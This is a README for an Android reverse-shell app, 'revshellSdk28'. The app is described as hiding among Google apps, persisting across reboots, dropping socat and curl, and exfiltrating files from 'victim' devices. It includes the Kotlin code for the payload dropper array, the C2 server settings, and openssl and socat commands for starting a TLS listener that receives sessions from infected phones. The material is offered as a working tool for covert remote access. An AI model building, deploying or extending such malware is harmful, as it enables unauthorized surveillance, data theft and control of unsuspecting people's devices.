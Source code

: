 # revshellSdk28
This is my Android Reverse Shell with dropping capabilities.

The idea was to create a Termux-like environment with a main APK with core functionality, capable of dropping additional executables and scripts.

## Features
- **Secure TLS shell**
- **Persistent** over time and reboots
- **Hidden** and camouflaged with Google apps
- **Drops additional statically linked executable and scripts** based on CPU architecture

Executable and scripts integrated by default:
- `socat` (aarch64 and x86/x64)
- `curl` (aarch64 and x86/x64)
- custom script for file exfiltration over HTTPS (`uplaod`)
- custom script to get device public IP (`ipinfo`)
- custom script to override `whoami` and set a custom "victim id" (`whoami`)

## Screenshots
This is the Reverse Shell in action. On the right you can see the device app drawer: can you guess where is the malicious app? From a visual perspective the reverse shell is perfectly camouflaged with other Google Apps.

![screenshot1](screenshot1.png)

Unfortunately, to guarantee persistence, the app must show a persistent notification (as sneaky as possible):

![screenshot2](screenshot2.png)

On notification/app opening the user will be redirected to a Google support page:

![screenshot3](screenshot3.png)

## Technical details

### execve

This app is able to execute ELF files using `execve` function. This function is forbidden on Android Q or higher (API level *>28*).

For more details: https://android-review.googlesource.com/c/platform/system/sepolicy/+/804149

So in order to compile this app a target API level between 26 and 28 must be set. This, of course, resulted in a number of limitations so that certain features could not be included or used within the app.

### Statically linked binaries

On the target device there is no possibility to include any sort of dependency for the executable files or compile them from source so the malicious app drops **statically linked binaries** included in the APK at compile time.

To add more binaries you must:
- encode the binary to Base64
- put the encoded file in `./revshellSdk28/app/src/main/res/raw`
- modify `./revshellSdk28/app/src/main/java/org/android/settings/Dropper.kt`; for example:
  ```
              val payloads = arrayOf(
                arrayOf("aarch64", "socat" , readRawTextResource(context, R.raw.socat_aarch64)),
                arrayOf("aarch64", "curl"  , readRawTextResource(context, R.raw.curl_aarch64)) ,
                arrayOf("x86_64" , "socat" , readRawTextResource(context, R.raw.socat_x86_64)) ,
                arrayOf("x86_64" , "curl"  , readRawTextResource(context, R.raw.curl_x86_64))  ,
                arrayOf("any"    , "whoami", readRawTextResource(context, R.raw.whoami))       ,
                arrayOf("any"    , "ipinfo", readRawTextResource(context, R.raw.ipinfo))       ,
                arrayOf("any"    , "upload", readRawTextResource(context, R.raw.upload))
            )
  ```
  including (in order) the following parameters:
    - a specific architecture (aquired on the target machine using `uname -m`) or "any"
    - filename that will be written on device storage
    - name of the Resource File in the Android Project

Binaries included by default are not compiled by me! You can find these on various Github repos. Following some examples:
- https://github.com/polaco1782/linux-static-binaries
- https://github.com/ryanwoodsmall/static-binaries
- https://github.com/mosajjal/binary-tools
- https://github.com/andrew-d/static-binaries

### Command and Control settings
In order to set your C2 server you must modify `./revshellSdk28/app/src/main/java/org/android/settings/MainMaliciousCode.kt`.

You can use an IP or an hostname. Example:
```
    object C2 {
        //const val IP    = "myc2.server.it"
        const val IP    = "123.123.123.123"
        const val RPORT = 443
        const val RETRY = 5
    }
```
Ofcourse you must use a **public address**, set **port forwarding** and firewall rules on your router. Additionally, you can use DNS, Ngrok and other services for reachability and to route your traffic but **how to set this configurations or use those services is out of the scope of this documentation!**

### How to start a session
1. Generate a certificate for the TLS connection on you C2 server:
```
openssl req -newkey rsa:2048 -nodes -keyout bind.key -x509 -days 1000 -out bind.crt
cat bind.key bind.crt > bind.pem
```
2. Create a listener with your favourite tool. Example:
```
sudo socat -d -d OPENSSL-LISTEN:443,cert=bind.pem,verify=0,fork STDOUT
```
Note: this app is not designed to work in a multi-client environment. The easiest thing you can do to use it with multiple devices is to use a different IP port for each infected machine and change the content of `./revshellSdk28/app/src/main/res/raw/whoami` to set a recognizable name for the victim system.
